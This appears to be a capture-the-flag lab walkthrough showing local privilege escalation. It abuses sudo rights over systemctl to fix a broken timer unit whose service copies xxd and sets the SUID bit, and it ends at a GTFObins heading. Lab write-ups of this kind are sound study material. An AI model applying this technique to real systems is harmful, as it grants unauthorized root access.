 ```
comte@ip-10-10-8-70:~$ sudo -l
User comte may run the following commands on ip-10-10-8-70:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer

```

If we go in /etc/systemd/system and cat exploit.timer and then exploit.server (they go togheter) :

```
comte@ip-10-10-8-70:/etc/systemd/system$ cat exploit.timer
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target
comte@ip-10-10-8-70:/etc/systemd/system$ cat exploit.service
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"

```

if we try to restat the exploit.timer it failed and if we status it says **bad-settings :**

```
comte@ip-10-10-8-70:/etc/systemd/system$ systemctl status exploit.timer
● exploit.timer - Exploit Timer
     Loaded: bad-setting (Reason: Unit exploit.timer has a bad unit file setting.)
     Active: inactive (dead)
    Trigger: n/a
   Triggers: ● exploit.service

```

We can modify the **settings** with **[[Nano]]** :

![120e2b1e89c733d8b29c3e68202bebbc.png](120e2b1e89c733d8b29c3e68202bebbc.png)

and then reload it and run it :

```
comte@ip-10-10-8-70:/etc/systemd/system$ sudo /bin/systemctl daemon-reload
comte@ip-10-10-8-70:/etc/systemd/system$ sudo /bin/systemctl restart exploit.timer
```

## GTFObins

